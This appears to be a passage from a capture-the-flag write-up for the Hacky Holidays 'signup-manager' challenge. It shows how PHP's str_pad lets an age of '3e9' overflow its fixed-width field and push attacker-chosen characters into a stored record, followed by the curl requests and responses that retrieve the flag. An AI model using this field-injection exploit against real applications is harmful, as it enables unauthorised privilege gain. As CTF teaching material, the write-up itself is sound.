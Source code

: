 ```
$ php -a
Interactive mode enabled

php > echo str_pad('30',3,'#');
30#
php > echo str_pad('300000000000000000',3,'#');
300000000000000000
php > echo str_pad(3e9,3,'#');
3000000000
```

thus, age variable can push the ones coming after it `firstname` and `lastname` and we can have Y appended at the end of the string
```
    $line .= str_pad( $age,3,"#");
    $line .= str_pad( $firstname,15,"#");
    $line .= str_pad( $lastname,15,"#");
```

```
$ curl https://hackyholidays.h1ctf.com/signup-manager/ -d 'action=signup&username=ooooooooooooooo&password=password&age=3e9&firstname=YYYYYYYYYYYYYYYYYY&lastname=YYYYYYYYYYYYYYYYYY' -vv
[...]
> POST /signup-manager/ HTTP/1.1
> Host: hackyholidays.h1ctf.com
> User-Agent: curl/7.58.0
> Accept: */*
> Content-Length: 117
> Content-Type: application/x-www-form-urlencoded
> 
[...]
< HTTP/1.1 302 Found
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 23 Dec 2020 01:48:36 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: token=c66cbe646e0e05df1ba8b04b492f6f84; 
< Location: /signup-manager/
< 

$ curl https://hackyholidays.h1ctf.com/signup-manager/ -H 'Cookie: token=c66cbe646e0e05df1ba8b04b492f6f84'
[...]
<p class="text-center">flag{99309f0f-1752-44a5-af1e-a03e4150757d}</p>
<p class="text-center">You made it through, continue to your next task <a href="/r3c0n_server_4fdk59">here</a></p>
[...]
```
we got a flag, and next challenge will be at: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59	


